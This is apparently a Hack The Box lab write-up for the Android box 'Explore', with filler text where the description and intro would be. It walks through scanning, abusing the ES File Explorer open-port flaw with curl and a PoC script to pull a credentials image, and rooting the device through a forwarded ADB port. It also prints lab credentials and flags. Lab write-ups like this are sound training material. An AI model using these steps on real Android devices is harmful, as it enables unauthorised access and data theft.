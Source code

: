 ```yaml
---
title: Explore - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-07-12
image: images/explore_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/explore_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV --open 10.10.10.247
    PORT     STATE SERVICE VERSION
    2222/tcp open  ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.91%I=7%D=7/12%Time=60EC0C84%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

  [root:~]# nmap -p- --open 10.10.10.247
    PORT      STATE SERVICE
    2222/tcp  open  EtherNetIP-1
    42135/tcp open  unknown
    46285/tcp open  unknown
    59777/tcp open  unknown

  [root:~]# nmap -sU --open 10.10.10.247
    PORT     STATE         SERVICE
    1900/udp open|filtered upnp
    5353/udp open|filtered zeroconf

2. Googling about the unknown ports we quickly discover that 42135 & 59777 = ES File Explorer - which fits the name of the box.

There are numerous vulns out there for ES File Explorer, even a MSF module, however firing them off the shelf gives me response
500 error. After wasting a good amount of time with this error, I found that this is unintended and you should restart the box
until it works.

  [root:/git/htb/explore]# curl --header "Content-Type: application/json" --request POST --data "{"command":getDeviceInfo}" http://10.10.10.247:59777 -vvv
    Note: Unnecessary use of -X or --request, POST is already inferred.
    *   Trying 10.10.10.247:59777...
    * Connected to 10.10.10.247 (10.10.10.247) port 59777 (#0)
    > POST / HTTP/1.1
    > Host: 10.10.10.247:59777
    > User-Agent: curl/7.74.0
    > Accept: */*
    > Content-Type: application/json
    > Content-Length: 23
    >
    * upload completely sent off: 23 out of 23 bytes
    * Mark bundle as not supporting multiuse
    * HTTP 1.0, assume close after body
    < HTTP/1.0 200 OK
    < Content-Type: text/plain
    < Date: Mon, 12 Jul 2021 08:47:41 GMT
    < Content-Length: 73
    <
    * Closing connection 0
    {"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}

The vulnerability now works, to automate the process download a poc script and go at it.

  [root:/git/htb/explore]# python3 rce.py --cmd listPics --ip 10.10.10.247                                                          (master✱)
    [*] Executing command: listPics on 10.10.10.247
    [*] Server responded with: 200

    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

'creds.jpg' sounds like a great picture, download it.

  [root:/git/htb/explore]# python3 rce.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247                           (master✱)
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
    	from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg

CREDS = kristi:Kr1sT!5h@Rp3xPl0r3!


3. Login with SSH and grab user.txt

  [root:~]# ssh kristi@10.10.10.247 -p 2222
    Password authentication
    Password:
    :/ $ id
      uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cd sdcard
    :/sdcard $ cat user.txt
      f32017174c7c7e8f50c6da52891ae250


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking on running port we find that 5555 is open locally. Reading about Android port 5555 we find that it's used for
   Android Debug Bridge. ADB has an exploit where we can connect to it locally and get a root shell, sounds good!

  :/sdcard $ netstat -antup
    Active Internet connections (established and servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
    ..
    tcp6       0      0 :::5555                 :::*                    LISTEN      -


  [root:~]# ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247
  [root:/opt/scanners/linux]# adb connect localhost:5555
    connected to localhost:5555
  [root:/opt/scanners/linux]# adb devices
    List of devices attached
    emulator-5554	device
    localhost:5555	device
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ $ id
      uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
    x86_64:/ $ exit

  [root:/opt/scanners/linux]# adb root
    restarting adbd as root
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ # id
      uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
    x86_64:/ # find -L /data -name "root.txt" 2>/dev/null
      /data/root.txt
    x86_64:/ # cat data/root.txt
      f04fc82b6d49b41c9b08982be59338c5


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Android Open Ports:
  https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_06B-5_Wu_paper.pdf

ES File Explorer Vuln POC:
  https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

ADB Exploit:
  https://allhacked.com/exploiting-android-through-adb/
  https://stackoverflow.com/questions/14654718/how-to-use-adb-shell-when-multiple-devices-are-connected-fails-with-error-mor
  https://www.remosoftware.com/info/how-to-root-an-android-phone

Find Command in Linux:
  https://www.linode.com/docs/guides/find-files-in-linux-using-the-command-line/
